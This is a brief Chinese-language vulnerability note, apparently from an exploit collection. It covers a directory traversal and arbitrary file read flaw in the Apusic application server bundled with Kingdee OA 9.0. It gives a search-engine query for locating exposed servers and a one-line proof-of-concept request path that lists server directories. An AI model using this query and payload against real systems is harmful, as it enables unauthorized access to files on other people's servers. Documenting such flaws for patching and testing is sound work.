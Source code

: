 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

# 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## 网络测绘

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](/images/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](/images/202205201427636.png)

